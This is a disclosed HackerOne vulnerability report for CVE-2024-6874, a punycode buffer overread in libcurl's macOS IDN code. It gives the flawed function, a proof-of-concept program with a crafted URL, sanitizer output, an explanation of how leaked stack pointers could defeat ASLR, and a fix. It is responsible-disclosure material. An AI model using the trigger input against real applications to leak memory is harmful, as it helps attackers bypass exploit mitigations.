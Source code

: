 # CVE-2024-6874: macidn punycode buffer overread

## Report Details
- **Report ID**: 2604391
- **URL**: https://hackerone.com/reports/2604391
- **State**: Closed
- **Severity**: low
- **Submitted**: 2024-07-16T02:07:09.650Z
- **Disclosed**: 2024-07-24T06:47:49.316Z

## Reporter
- **Username**: z2_
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
libcurl at commit [58772b0e082eda333e0a5fc8fb0bc7f17a3cd99c](https://github.com/curl/curl/tree/58772b0e082eda333e0a5fc8fb0bc7f17a3cd99c) contains a stack-buffer overread in [lib/idn.c:75](https://github.com/curl/curl/blob/58772b0e082eda333e0a5fc8fb0bc7f17a3cd99c/lib/idn.c#L75) that can be triggered when the host of a URL is converted to punycode.

The root cause of the bug is in the function `mac_idn_to_ascii()`:
```c
static CURLcode mac_idn_to_ascii(const char *in, char **out)
{
    // --- snip ---
    
    UIDNAInfo info = UIDNA_INFO_INITIALIZER;
    char buffer[256] = {0};
    (void)uidna_nameToASCII_UTF8(idna, in, -1, buffer,
        sizeof(buffer), &info, &err);
    uidna_close(idna);
    if(U_FAILURE(err)) {
        return CURLE_URL_MALFORMAT;
    }
    else {
        *out = strdup(buffer);
        if(*out)
        return CURLE_OK;
        else
        return CURLE_OUT_OF_MEMORY;
    }
    
    // --- snip ---
}
```

`buffer` is supposed to hold the punycode-encoded version of `in` as a NUL-terminated string. However
the implementation of `uidna_nameToASCII_UTF8()` leaves the output buffer unterminated when the length of the encoded output is equal to
the capacity of the output buffer ([source](https://github.com/unicode-org/icu/blob/main/icu4c/source/common/ustring.cpp#L1437)).
This leaves `buffer` without a terminating NUL-byte and the subsequent call to `strdup(buffer)` includes bytes beyond `buffer`.

# PoC
Consider the following dummy application that takes a URL as an argument and prints its punycode-encoded version:
```c
int main (int argc, char** argv) {
    CURLU* url = curl_url();
    curl_url_set(url, CURLUPART_URL, argv[1], 0);
    
    char* encoded_url;
    curl_url_get(url, CURLUPART_URL, &encoded_url, CURLU_PUNYCODE);
    
    printf("%s\n", encoded_url);
}
```

Then
```
./dummy "https://öööööö-ä-üxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxöööööööööööööööööüöäüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüüöööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööööxx"
```
results in the over-read:
```
==77491==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7e649e109750 at pc 0x5852e492c7b5 bp 0x7ffec1daa250 sp 0x7ffec1da9a10
READ of size 257 at 0x7e649e109750 thread T0
    #0 0x5852e492c7b4 in strlen.part.0 asan_interceptors.cpp.o
    #1 0x5852e4a1bf48 in curl_dbg_strdup curl/lib/memdebug.c:198:9
    #2 0x5852e4a43e13 in mac_idn_to_ascii curl/lib/idn.c:75:14
    #3 0x5852e4a4331f in idn_decode curl/lib/idn.c:244:12
    #4 0x5852e4a43158 in Curl_idn_decode curl/lib/idn.c:274:21
    #5 0x5852e4a28c6b in curl_url_get curl/lib/urlapi.c:1582:29
    #6 0x5852e4a196ec in main dummy.c:6:4
```

Note: In order to trigger the vulnerability on a non-apple device, compile curl with `-DUSE_APPLE_IDN -licuuc`.

# Exploitation Scenario

Exploitation of this bug has three strict requirements:
1. An attacker has control over the URL in `curl_url_set()`
2. The application manually calls `curl_url_get()` with `CURLU_PUNYCODE` and the attacker-provided URL
3. The resulting URL is mirrored back to the attacker or used to make a transfer

For any application that fulfills these three requirements this vulnerability can be used to leak pointers in the stackframe of `mac_idn_to_ascii()`.
Depending on what is adjacent to `buffer` the following information could be leaked:
- Base address of the stack when the framepointer follows `buffer`
- Base address of the application/libcurl when the return address follows `buffer` (`-fomit-frame-pointer`)
- Base address of the heap if the variable `UIDNA* idna` follows the buffer

Any of these information leaks bring down exploit mitigations like [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) or [PIE](https://en.wikipedia.org/wiki/Position-independent_code) and contribute largely to successful exploitation of other memory corruption vulnerabilities.

# Patch
I suggest the following patch, inspired by [PHP's handling](https://github.com/php/php-src/blob/master/ext/intl/idn/idn.c#L69) of `uidna_nameToASCII_UTF8()`:

```diff
diff --git a/lib/idn.c b/lib/idn.c
index 8d6bfe7ce..b66e04a64 100644
--- a/lib/idn.c
+++ b/lib/idn.c
@@ -65,13 +65,14 @@ static CURLcode mac_idn_to_ascii(const char *in, char **out)
   else {
     UIDNAInfo info = UIDNA_INFO_INITIALIZER;
     char buffer[256] = {0};
-    (void)uidna_nameToASCII_UTF8(idna, in, -1, buffer,
+    int n = uidna_nameToASCII_UTF8(idna, in, -1, buffer,
       sizeof(buffer), &info, &err);
     uidna_close(idna);
-    if(U_FAILURE(err)) {
+    if(U_FAILURE(err) || n < 0 || n >= sizeof(buffer)) {
       return CURLE_URL_MALFORMAT;
     }
     else {
+      buffer[n] = 0;
       *out = strdup(buffer);
       if(*out)
         return CURLE_OK;
```

## Impact

The vulnerability
- does not affect the majority of curl installations
- has strict requirements to work 
- even then only leads to an information leak and nothing worse

However, leaking memory content is still security-relevant so I suggest severity "Low".

## Attachments
No attachments
